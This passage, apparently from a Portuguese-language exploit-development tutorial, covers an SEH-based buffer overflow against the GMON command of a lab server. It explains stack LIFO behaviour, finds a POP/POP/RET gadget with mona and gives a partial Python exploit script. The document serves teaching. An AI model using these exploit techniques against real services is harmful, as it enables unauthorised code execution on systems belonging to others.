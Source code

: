 Precisamos encontrar uma forma de retirar estes 8 bytes da stack antes do JMP ESP para podermos cair exatamente em nosso buffer.

## ESTRUTURA LIFO

A stack da arquitetura x86 segue o padrão LIFO (Last In First Out) onde o ultimo item a entrar na stack é o primeiro a sair. Cada vez que fazemos um PUSH na memória, nós adicionamos exatamente 4 bytes à stack decrementando o apontador, ou seja, em cada PUSH em ESP o apontador ESP recebe um valor -4, em contrapartida, quando fazemos um POP na stack, adicionamos 4 bytes no apontador.

Como nosso buffer está 8 bytes acima de onde caímos, precisamos adicionar 8 bytes à stack, conseguimos isso encontrando um endereço que contenha um POP/POP/RET.

```
POP <qualquer registrador 32 bytes>
POP <qualquer registrador 32 bytes>
RET
```

Onde, o primeiro POP vai retirar o primeiro endereço da stack, adicionando 4 bytes ao endereço, e o segundo POP vai adicionar mais 4. O RET vai pegar o primeiro endereço da stack e adicioná-lo ao EIP, e assim executamos exatamente nosso buffer.

Podemos encontrar o endereço POP/POP/RET com o proprio Immunity utilizando o plugin mona com o comando `!mona seh -cp nonull -cm safeseh=off`.

![Enumaração do comando.](/std/winbof/winbof-55.png)

Onde `-cp nonull` omite endereços com caracteres nulos, “-cm safeseh=off” omite endereços compilados com SafeSEH.

Encontramos 12 endereços de POP/POP/RET utilizáveis, no meu caso utilizarei o 6250120b.

Vamos atualizar nosso script, e inserir o endereço encontrado no lugar de nossos “C”, lembrando que os bytes tem que ir na ordem inversa pois utilizam little indiam.

xplgmon.py:

```python
#!/usr/bin/python3

import socket

ip = "192.168.1.30"
porta = 9999

offset = 10007

payload = b"GMON ./"
payload += b"A" * 3549
payload += b"B" * 4
payload += b"\x0b\x12\x50\x62"
payload += b"D" * (offset - 3549 - 4 - 4)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")
```